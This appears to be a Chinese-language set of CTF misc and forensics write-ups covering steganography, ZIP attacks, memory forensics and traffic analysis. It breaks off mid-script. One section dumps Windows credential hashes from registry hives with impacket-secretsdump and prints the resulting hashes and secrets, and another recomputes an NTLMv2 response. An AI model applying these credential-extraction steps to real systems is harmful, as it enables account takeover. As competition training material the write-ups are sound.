解压附件压缩包，得到一个camera.png还有一个flag.zip

flag.zip中的文件如下


一眼明文攻击，010打开发现标志位是0x14，因此猜测是Bandizip或者WinRAR压缩的


经过尝试，发现Bandizip不行，用WinRAR压缩的能正常明文攻击


用修改后的密码123解压即可得到flag：`flag{33fe6D4cE7MLd}`


## 题目名称 二维码画图

附件给了下面这张jpg


010打开发现末尾藏了一个文件头被篡改的rar压缩包


提取出来并把文件头修复 `Rar!(52617221)` ，解压可以得到很多个0和1的嵌套目录


目录最底层是一个 _ 文件，其中是二进制数据，根据题目名称，猜测就是二进制转二维码

写个脚本提取并转换一下

```python
import os
import sys
from PIL import Image

def dfs_traverse(current_path, contents):
    """使用DFS遍历目录并提取_文件内容"""
    # 检查当前路径是否有_文件
    underscore_file = os.path.join(current_path, "_")
    if os.path.exists(underscore_file):
        try:
            with open(underscore_file, 'r') as f:
                contents.append(f.read().strip())
        except Exception as e:
            contents.append(f"Error reading {underscore_file}: {str(e)}")
    
    # 按顺序检查0和1子目录（先0后1）
    for subdir in ['0', '1']:
        subdir_path = os.path.join(current_path, subdir)
        if os.path.exists(subdir_path) and os.path.isdir(subdir_path):
            dfs_traverse(subdir_path, contents)

def extract_file_contents(root_dir):
    """提取目录中所有_文件的内容"""
    contents = []
    dfs_traverse(root_dir, contents)
    return ''.join(contents)

def draw_qrcode(data):
    img = Image.new('RGB', (59, 59))
    w,h = 59,59
    for i in range(len(data)):
        x = i % w
        y = i // w
        if data[i] == '0':
            img.putpixel((x, y), (255, 255, 255))
        else:
            img.putpixel((x, y), (0, 0, 0))
    resized_img = img.resize((590, 590), Image.NEAREST)
    # resized_img.show()
    resized_img.save('qrcode.png')

def main():
    root_dir = './'
    contents = extract_file_contents(root_dir)
    print(contents)
    draw_qrcode(contents)

    # Welcome, Key: 2339649336ce442c

if __name__ == "__main__":
    main()
```


扫码得到：`Welcome, Key: 2339649336ce442c`


回头去看提取出来的rar，发现末尾还有一个加密的zip压缩包


提取出来，然后输入之前得到的密码解压即可得到最后的flag：`flag{b9c8ab267048488298648cc3793fc498}`

## 题目名称 PIC2

题目附件给了一个伪加密的zip压缩包，去除伪加密后得到一张jpg

010打开发现末尾藏了一张jpg，并且中间还有一串字符


把jpg和中间的字符提取出来，发现这张jpg也和之前的一样藏了jpg和一些字符


我们按照规律依此提取


最后将提取出来的字符base32解码即可得到flag：`KEY{b26259f93cbb178944034b7e367c6fa5}`


## 题目名称 flag\^galf

题目附件给了一个Ubuntu flag.lime内存镜像

拿到内存镜像，先用R-studio扫一下，发现没有扫到什么特别的信息


然后我们拿010打开内存镜像，尝试搜索几个常见的关键字，并用肉眼去扫一遍


发现出题人用enc.py去加密了一张图片，并且下面的定时任务也提示了我们用的可能是异或的方法

至此我们大概就知道出题人的意图了，因此我们需要尝试从内存镜像中提取出这几张图片和加密脚本

这个需要我们去制作vol2的Profile，然后去进行内存取证（vol3没办法导出文件）

如何制作vol2的Profile可以参考我的这篇博客：[Misc-Forensics](https://goodlunatic.github.io/posts/761da51/)

做好Profile后，打包为zip放到`volatility/volatility/plugins/overlays/linux`即可

然后运行`python2 volatility/vol.py --info`，发现可以正常加载Profile



我们首先看一下命令行中的历史记录，可以看到出题人加密图片的命令

```bash
python2 ~/CTF/volatility/vol.py -f ubuntu.lime --profile=LinuxUbuntu_4_13_0-36_4_13_0-36_40x64 linux_bash > linux_bash.txt
```


然后尝试查找并导出这几张加密图片和脚本

```bash
python2 ~/CTF/volatility/vol.py -f ubuntu.lime --profile=LinuxUbuntu_4_13_0-36_4_13_0-36_40x64 linux_find_file -L | grep "enc.py"

python2 ~/CTF/volatility/vol.py -f ubuntu.lime --profile=LinuxUbuntu_4_13_0-36_4_13_0-36_40x64 linux_find_file -i 0xffff8de7b8c92b18 -O ./enc.py

python2 ~/CTF/volatility/vol.py -f ubuntu.lime --profile=LinuxUbuntu_4_13_0-36_4_13_0-36_40x64 linux_find_file -L | grep "picture.png"

python2 ~/CTF/volatility/vol.py -f ubuntu.lime --profile=LinuxUbuntu_4_13_0-36_4_13_0-36_40x64 linux_find_file -i 0xffff8de7b8dab388 -O ./picture.png

python2 ~/CTF/volatility/vol.py -f ubuntu.lime --profile=LinuxUbuntu_4_13_0-36_4_13_0-36_40x64 linux_find_file -L | grep "encrypt.png"

python2 ~/CTF/volatility/vol.py -f ubuntu.lime --profile=LinuxUbuntu_4_13_0-36_4_13_0-36_40x64 linux_find_file -i 0xffff8de7b8daf708 -O ./encrypt.png
```

发现enc.py导出来是空的并且内存中找不到ori.png，但是picture.png和encrypt.png可以正常导出

因此结合之前在定时任务中得到的提示，猜测出题人是要我们去分析这个图片异或加密算法了


先尝试写了一个脚本，直接把两张图片的像素异或一下，发现能看到flag的影子，但是不清晰

```python
from PIL import Image

def func1():
    img1 = Image.open("encrypt.png")
    img2 = Image.open("picture.png")
    w,h = img1.size
    img3 = Image.new("RGB", (w,h))
    for y in range(h):
        for x in range(w):
            r1,g1,b1,a1 = img1.getpixel((x,y))
            r2,g2,b2,a2 = img2.getpixel((x,y))
            r = r1 ^ r2
            g = g1 ^ g2
            b = b1 ^ b2
            a = a1 ^ a2
            img3.putpixel((x,y),(r,g,b,a))
                
    img3.show()
    img3.save("img3.png")
```


因此，尝试去分析了一下像素的规律，然后发现有部分连续像素点的rgba的异或结果相同

然后尝试缩小了一下异或结果res的范围，发现`res>=255`的时候（其实就是`res==255`的时候）

可以得到清晰的flag图像

```python
def func2():
    img1_pixles = []
    img2_pixles = []
    xor_pixles = []
    img1 = Image.open("encrypt.png")
    img2 = Image.open("picture.png")
    w,h = img1.size
    img3 = Image.new("RGB", (w,h))
    for y in range(h):
        for x in range(w):
            r1,g1,b1,a1 = img1.getpixel((x,y))
            r2,g2,b2,a2 = img2.getpixel((x,y))
            r = r1 ^ r2
            g = g1 ^ g2
            b = b1 ^ b2
            a = a1 ^ a2
            res = r ^ g ^ b ^ a # 发现部分连续像素异或出来的结果相同
            print(res,end=' ')
            img1_pixles.append((bin(r1)[2:].rjust(8,'0'),bin(g1)[2:].rjust(8,'0'),bin(b1)[2:].rjust(8,'0'),bin(a1)[2:].rjust(8,'0')))
            r2,g2,b2,a2 = img2.getpixel((x,y))
            img2_pixles.append((bin(r2)[2:].rjust(8,'0'),bin(g2)[2:].rjust(8,'0'),bin(b2)[2:].rjust(8,'0'),bin(a2)[2:].rjust(8,'0')))
            xor_pixles.append((bin(r)[2:].rjust(8,'0'),bin(g)[2:].rjust(8,'0'),bin(b)[2:].rjust(8,'0'),bin(a)[2:].rjust(8,'0')))
            if res >= 255:
                img3.putpixel((x,y),(0,0,0))
            else:
                img3.putpixel((x,y),(255,255,255))
                
    print(img1_pixles[:10])
    print(img2_pixles[:10])
    print(xor_pixles[:10])
    img3.show()
    img3.save("flag.png")
```


当然以上只是我一开始的解题思路，后来回头联想了一下题目的名称 `flag ^ galf`

想到出题人的真实意图应该是img1的rgba异或img2的abgr

因此写了个脚本，复原出了出题人的ori.png，得到本题的flag: `DASCTF{9da98cbf7e99bff7c93ef066935f65ba}`

```python
def func3():
    img1 = Image.open("encrypt.png")
    img2 = Image.open("picture.png")
    w,h = img1.size
    img3 = Image.new("RGBA", (w,h))
    for y in range(h):
        for x in range(w):
            r1,g1,b1,a1 = img1.getpixel((x,y))
            r2,g2,b2,a2 = img2.getpixel((x,y))
            r = r1 ^ a2
            g = g1 ^ b2
            b = b1 ^ g2
            a = a1 ^ r2
            img3.putpixel((x,y),(r,g,b,a))

    img3.show()
    img3.save("ori.png")
```


## 题目名称 base_2

附件给了以下这张PNG，010打开发现末尾藏了一个ZIP压缩包


提取出来解压，得到一个xor文件，内容是base64编码的字符串

zsteg扫一下png，得到一串字符，长度刚刚好是32位


使用Cyberchef解码base64然后异或一下上面这个字符串即可得到一堆base32字符串


最后解base32隐写即可得到最后的flag: `DASCTF{e738d5d58f8e231f0523b768558cc959}`


## 题目名称 deep-with-deep

题目附件给了一个 wav 文件，元数据中提示了密码是 deep


结合题目名称和 wav，很容易联想到是 deepsound

输入密钥解密即可得到一张 png 图片


用 stegsolve 打开刚刚得到的 PNG，发现 Alpha Plane 2 有 LSB 隐写的痕迹 


因此我们写个脚本提取一下即可：`flag{225f667d9243201a6b2b35e008ebe3d3}`

```python
from PIL import Image

def func1():
    res = ""
    flag = False
    img = Image.open("deep.png")
    w,h = img.size
    for x in range(400,401):
        for y in range(h):
            r,g,b,a = img.getpixel((x,y))
            # if a!=255:
            #     print(a,(x,y))
            #     break
            if (a >> 2) & 1 == 0:
                res += '0'
            else:
                res += '1'
    print(res)     
    
if __name__ == '__main__':
    func1()
```


## 题目名称 python_jail

题目所给附件如下


依次解密零宽和 whitespace 隐写即可得到压缩包解压密码：`a8e15220-7404-4269-812e-6418557b7dc2`


解压后可以得到一张 PNG 图片，并且 PNG 图片 LSB 隐写了一个 python3.9 打包的 pyc 文件


直接导出然后用 pccdc 反编译一下即可

```bash
zsteg -e "b1,rgb,lsb,xy" SECRET1.png > 1.pyc
```


最后解个 base64 即可得到最后的 flag：`flag{b5bcfc87-5ca6-43f1-b384-57d09b886ca9}`

## 题目名称 bus

题目附件给了一个`bus.cap`，Linux下 file 一下发现是 pcap 文件，直接 wireshark 打开

发现主要是 modbus 流量


稍微翻看一下流量包，发现一共就两种操作：读保持寄存器、写单个寄存器

因此我们可以按照顺序去查看 读保持寄存器 时的内容


主要关注上面两个包，解码第一个可以得到密钥：`flag{nononononononononono_this_is_key}`


然后解第二个流量包，发现解出来的密文是 40 字节，但是上面密钥是 38 字节


仔细观察密钥，发现出题人填充了很多个 nonono，猜测可能是故意调整到这个长度

然后注意到密文前后都有个 0x2d，删除后刚刚好和密钥的长度对上，都是 38 字节

最后异或一下，再 ROT47 解码即可得到最后的 flag：`flag{25b3318b9651cc7f3af666343614142e}`


## 题目名称 att

题目附件给了一个压缩包，打开查看，很明显提示了明文攻击


解压后得到一个加密的压缩包，尝试弱密码爆破得到解压密码：`123456`


解压后得到 flag.txt，内容如下：

> INalVNrhVMK3WMa7XMqB2F2FuSbo+

XXencode 解码即可得到最后的 flag : `flag{aaabbbcccDDDzz}`


## 题目名称 你知道我的密码吗？

题目附件给了以下三个文件，猜测需要我们从这三个文件中恢复密码


结合文件名搜索到如下这篇文章：

https://www.bordergate.co.uk/extracting-windows-credentials-using-native-tools/

直接在 Kali-Linux 里用 impacket-secretsdump 导出 hash 即可


```bash
$ impacket-secretsdump -sam './sam' -system './sys' -security './security' LOCAL
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Target system bootKey: 0xb503ddc9ee9d7745dea270d29a317d21
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:124c1eb810a265ea0eb2b12fe814c070:::
Admin:1001:aad3b435b51404eeaad3b435b51404ee:ad70819c5bc807280974d80f45982011:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x0d1b5bdfc8d33c4fab65c842bddae69beca945b0
dpapi_userkey:0xb55e67d132394e16d9678c344feb238628eef222
[*] L$_SQSA_S-1-5-21-2002660762-2776537960-2635005223-1001 
Security Questions for user S-1-5-21-2002660762-2776537960-2635005223-1001: 
 - Version : 1
 | Question: 你出生城市的名称是什么?
 | |--> Answer: ht
 | Question: 你孩童时期的昵称是什么?
 | |--> Answer: ff
 | Question: 你的母校名称是什么?
 | |--> Answer: cz
[*] NL$KM 
 0000   DF 8C 5F 63 8E BD 17 89  B0 A1 0E A1 0A 4D 53 50   .._c.........MSP
 0010   03 92 03 AD 36 FC E2 89  67 93 63 27 B1 C4 4F E2   ....6...g.c'..O.
 0020   79 82 BD F3 98 91 78 B1  C0 22 73 A9 DF B9 7C B4   y.....x.."s...|.
 0030   56 F9 9D 84 82 FA 8A 0C  9E 9E 31 19 6C 85 40 9C   V.........1.l.@.
NL$KM:df8c5f638ebd1789b0a10ea10a4d5350039203ad36fce28967936327b1c44fe27982bdf3989178b1c02273a9dfb97cb456f99d8482fa8a0c9e9e31196c85409c
[*] RasDialParams!S-1-5-21-2002660762-2776537960-2635005223-1001#0 
 0000   32 00 33 00 32 00 35 00  33 00 35 00 37 00 31 00   2.3.2.5.3.5.7.1.
 0010   38 00 00 00 31 00 36 00  30 00 38 00 00 00 36 00   8...1.6.0.8...6.
 0020   31 00 00 00 00 00 2A 00  00 00 73 00 32 00 30 00   1.....*...s.2.0.
 0030   31 00 34 00 31 00 34 00  30 00 33 00 31 00 33 00   1.4.1.4.0.3.1.3.
 0040   30 00 00 00 00 00 00 00  31 00 00 00 00 00         0.......1.....
RasDialParams!S-1-5-21-2002660762-2776537960-2635005223-1001#0:32003300320035003300350037003100380000003100360030003800000036003100000000002a000000730032003000310034003100340030003300310033003000000000000000310000000000
[*] Cleaning up...

```

> 这里网上也有直接单独用 secretsdump.py 提取的，但是我这里没成功

提取出来后用 hashcat 爆破或者在线网站查询即可


这个 `31d6cfe0d16ae931b73c59d7e0c089c0` 爆破出来是空密码


因为缺少题面信息，不知道 flag 要求的具体格式，但是我们已经得到了 Admin 用户的密码：`123qwe`

后来和比赛承办方确认了flag就是得到密码的md5值：`46f94c8de14fb36680850768ff1b7f2a`


## 题目名称 Strangesystem（2024数据安全产业人才积分争夺赛）

题目附件给了一个pcap流量包，翻看一下发现主要是HTTP和QUIC的流量，并且追踪HTTP流发现如下内容


传了一张PNG，并且末尾藏了一个ZIP压缩包以及TLS的sslkey.log文件

其中ZIP压缩包是加密的，猜测是需要我们从加密的TLS流量中获得压缩包的解压密码

因此我们尝试提取并把这三个文件分离开来，然后把sslkey.log导入



这时候我们就能看到解密后的QUIC流量的内容了，可以得到如下关键信息

```bash
username=admin&password=QUICAUTH-CCC123!@#

admin::SecretServer:d158262017948de9:xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx:010100000000000058b2da67cbe0d001c575cfa48d38bec50000000002001600450047004900540049004d002d00500043003100340001001600450047004900540049004d002d00500043003100340004001600650067006900740069006d002d00500043003100340003001600650067006900740069006d002d0050004300310034000700080058b2da67cbe0d0010600040002000000080030003000000000000000000000000030000065d85a4000a167cdbbf6eff657941f52bc9ee2745e11f10c61bb24db541165800a001000000000000000000000000000000000000900240063006900660073002f003100390032002e003100360038002e0031002e00310030003700000000000000000000000000
```

发现第二部分的内容是一个 NTLMv2 Hash

一个正常的 NTLMv2 Hash 格式应该是：`username::domain:ServerChallenge:NTproofstring:modifiedntlmv2response`

但是很明显这里的 `NTproofstring`有问题，因为都是xxx，猜测需要我们去恢复这个

参考网上NTLM认证协议中的密钥派生过程，写个脚本生成一下

```python
import hashlib
import hmac

user_name = "admin"
password = "QUICAUTH-CCC123!@#"
domain_name = "SecretServer"

# 使用MD4消息摘要算法得到16字节的 NTLM_HASH
ntlm_hash = hashlib.new("md4", password.encode("utf-16-le")).digest().hex()
print(f"NTLM Hash: {ntlm_hash}")

user_domain_name = user_name.upper().encode("utf-16-le")+domain_name.upper().encode("utf-16-le")
print(f"User Domain Data: {user_domain_name}")

# 使用 NTLM_HASH 作为密钥对用户名域名进行MD5加密
firstHMAC = hmac.new(bytes.fromhex(ntlm_hash), user_domain_name, hashlib.md5).hexdigest()
print(f"First HMAC Result: {firstHMAC}")

ntlm_authentication_data = "d158262017948de9010100000000000058b2da67cbe0d001c575cfa48d38bec50000000002001600450047004900540049004d002d00500043003100340001001600450047004900540049004d002d00500043003100340004001600650067006900740069006d002d00500043003100340003001600650067006900740069006d002d0050004300310034000700080058b2da67cbe0d0010600040002000000080030003000000000000000000000000030000065d85a4000a167cdbbf6eff657941f52bc9ee2745e11f10c61bb24db541165800a001000000000000000000000000000000000000900240063006900660073002f003100390032002e003100360038002e0031002e00310030003700000000000000000000000000"

NTproofstring = hmac.new(bytes.fromhex(firstHMAC), bytes.fromhex(ntlm_authentication_data), hashlib.md5).hexdigest()
print(NTproofstring)

# NTLM Hash: 61a26d3fee855453bc125700bc8cf6f2
# User Domain Data: b'A\x00D\x00M\x00I\x00N\x00S\x00E\x00C\x00R\x00E\x00T\x00S\x00E\x00R\x00V\x00E\x00R\x00'
# First HMAC Result: 7d3ce509093fb2b7bcbbe7939fa8ee74
# efa243f442b9d683eb1b00a2b1a0c9fc
```

把得到的 `NTproofstring` 作为压缩包解压密码解压即可得到最后的flag：`flag{8af4d019-98ae-4b4f-a4e9-97076d205fd2}`

## 题目名称 xxxxxx（2022 DASCTF X SU 三月春季挑战赛）

题目附件给了一个 xxxxxx.bmp 和一个 xxxxxxEncrypt.py

xxxxxxEncrypt.py 内容如下，发现是经过混淆的 DCT 变换

```python
xxxxxxx = cv2.imread('xxxxxxx.bmp', 0)
xxxxxxxx = cv2.imread('xxxxxxxx.bmp', 0)
xxxxxxxxx, xxxxxxxxxx = xxxxxxx.shape
xxxxxxxxxxx = int(xxxxxxxxx/8)
xxxxxxxxxxxx = int(xxxxxxxxxx/8)
fingernum = xxxxxxxx.shape[0] * xxxxxxxx.shape[1]
r = math.ceil(fingernum/(xxxxxxxxxxx*xxxxxxxxxxxx))
xxxxxxx = np.float32(xxxxxxx)

xxxxxxxxxxxxx = xxxxxxx

for i in range(xxxxxxxxxxx):
	for j in range(xxxxxxxxxxxx):
		xxxxxxxxxxxxxxx = cv2.dct(xxxxxxx[8*i:8*i+8, 8*j:8*j+8])
		for t in range(r):
			rx, ry = 4, 4
			r1 = xxxxxxxxxxxxxxx[rx, ry]
			r2 = xxxxxxxxxxxxxxx[7-rx, 7-ry]
			detat=abs(r1-r2)
			xxxxxxxxxxxxxx = float(detat + 100)
			if xxxxxxxx[i][j] == 0:
				if r1 <= r2:
					xxxxxxxxxxxxxxx[rx, ry] += xxxxxxxxxxxxxx
			if xxxxxxxx[i][j] == 255:
				if r1 >= r2:
					xxxxxxxxxxxxxxx[7-rx, 7-ry] += xxxxxxxxxxxxxx
		xxxxxxxxxxxxx[8*i:8*i+8, 8*j:8*j+8] = cv2.idct(xxxxxxxxxxxxxxx)
cv2.imwrite("xxxxxx.bmp", xxxxxxxxxxxxx)
```

因此我们需要先去混淆

```python
import cv2,math
import numpy as np

img = cv2.imread('xxxxxxx.bmp', 0)
flag = cv2.imread('xxxxxxxx.bmp', 0)
height, width = img.shape
block_y = int(height/8)
block_x = int(width/8)
fingernum = flag.shape[0] * flag.shape[1]
r = math.ceil(fingernum/(block_y*block_x)) # 返回大于等于参数fingernum/(x*y)的最小整数
img = np.float32(img) # 转换为float类型，便于后续DCT变换

new_img = img

for h in range(block_y):
    for w in range(block_x):
        data_dct = cv2.dct(img[8*h:8*h+8, 8*w:8*w+8])
        for t in range(r):
            rx, ry = 4, 4
            r1 = data_dct[rx, ry] # 可以知道8格一块然后修改dct的3和4处数据
            r2 = data_dct[7-rx, 7-ry]
            detat=abs(r1-r2) # 绝对值
            tmp = float(detat + 100)
            if flag[h][w] == 0:
                if r1 <= r2: # 比较两边大小
                    data_dct[rx, ry] += tmp
            if flag[h][w] == 255:
                if r1 >= r2:
                    data_dct[7-rx, 7-ry] += tmp
        new_img[8*h:8*h+8, 8*w:8*w+8] = cv2.idct(data_dct)
cv2.imwrite("xxxxxx.bmp", new_img)
```

写个脚本提取数据

```python
import cv2,math
import numpy as np
from Crypto.Util import number

img = cv2.imread('xxxxxx.bmp', 0)
height, width = img.shape
block_y = int(height/8)
block_x = int(width/8)
img = np.float32(img)

res = ''
for h in range(block_y):
    for w in range(block_x):
        data_dct = cv2.dct(img[8*h:8*h+8, 8*w:8*w+8])
        rx, ry = 4, 4
        r1 = data_dct[rx, ry]
        r2 = data_dct[7-rx, 7-ry]
        if r1 > r2:
            res += '0'
        else:
            res += '1'
print(res)
```

提取出来的数据发现是一堆连续的0和1，尝试统计一下每组0和1的个数，发现刚刚好在ASCII码的范围内

```
0000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000011111111111111111111111111111111111111111111111111000000000000000000000000000000000000000000000000000001111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111100000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000001111111111111111111111111111111111111111111111111111111110000000000000000000000000000000000000000000000000011111111111111111111111111111111111111111111111110000000000000000000000000000000000000000000000000000111111111111111111111111111111111111111111111111100000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111110000000000000000000000000000000000000000000000000000000001111111111111111111111111111111111111111111111111111000000000000000000000000000000000000000000000000000001111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111110000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000001111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111110000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111100000000000000000000000000000000000000000000000001111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111110000000000000000000000000000000000000000000000000000001111111111111111111111111111111111111111111111111111100000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111110000000000000000000000000000000000000000000000000111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111110000000000000000000000000000000000000000000000000000000001111111111111111111111111111111111111111111111111110000000000000000000000000000000000000000000000000000000111111111111111111111111111111111111111111111111111110000000000111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111
```

因此直接写个脚本统计并转ASCII即可得到最后的flag: `e25bd92141be945cfcdd1c65bb1b9375`

```python
idx_list = []
now_num = '0'
for i in range(len(res)):
    if res[i] != now_num:
        # print(i)
        idx_list.append(i)
        now_num = res[i]

flag = chr(101)
for i in range(1,len(idx_list)):
    flag += chr(idx_list[i]-idx_list[i-1])

print(flag) # e25bd92141be945cfcdd1c65bb1b9375
```

## 题目名称 未知

题目附件给了一张 `pk.gif` 和一张 `浏览器？.png`，尝试给 GIF 分帧，发现其中一帧有可疑的字符串：`hello_Hier_qw5612`


然后在另一张PNG末尾可以提取出一个加密的rar压缩包，解压密码就是上面得到的那串字符串

解压后可以得到一个完整的Chrome浏览器用户数据目录

主要关注这两个sqlite文件：`Google\Chrome\User Data\Default\History.db\Login Data`、`Google\Chrome\User Data\Default\History.db\History`

vscode中如果装了`SQlite Viewer`插件，可以直接把这俩文件后缀改成`.db`查看


发现用户访问了希尔加密的网站，并且logins表中的两个用户名有点可疑

> .vyouhlvgbaryvxgjqknzbi,vgrqqrwbdxhximtq
> 
> bposqrclvjmzanfx

上图中的那个希尔加密的网站好像已经寄了，于是我直接用新版随波逐流里的希尔加密了


一开始尝试解密发现出不来，最后发现要用加密才能得到最后的flag: `DASCTF{principle_of_basic_matrix_theory}`

## 题目名称 特殊流量

题目附件给了一个流量包，翻看一下发现以下几个可疑信息

首先是给了一个hint：crc32



然后上传了一个flag文件，熟悉文件头的话很容易发现这是一个十六进制逆序后的7z文件


直接CyberChef中逆序一下提取出来即可


然后继续看，发现用户还传了三个文件，分别是：pwd1.dat pwd2.dat pwd3.dat


出题人这里出的不好，因为传的每个dat文件也都是4字节的，很容易让选手认为这几个就是crc32的值

但是其实我们要爆破的是这三个数据crc32计算后的值

我们可以复制出原始的十六进制，然后用CyberChef转一下


然后拿crc32爆破的脚本爆破一下crc32即可得到解压密码：`PAS4_Wo3d_he3e!`


用上面的密码解压7z后可以得到一个 flag.txt 内容如下：

> D 1l A 1h S 1g 23 1d 2k 32 26 1n 3r 1k 1i 1k 1l 1d 33 1l 31 1p 34 1k 1p 1i 31 35 1m 32 1d 1m 1m 35 32 1m 1k 33 31 1n 1d 1m 1k 3t

发现有DAS这三个关键的字母，然后别的数据应该都是32进制，因此我们写个脚本转换一下

```python
def func():
    with open("flag.txt",'r') as f:
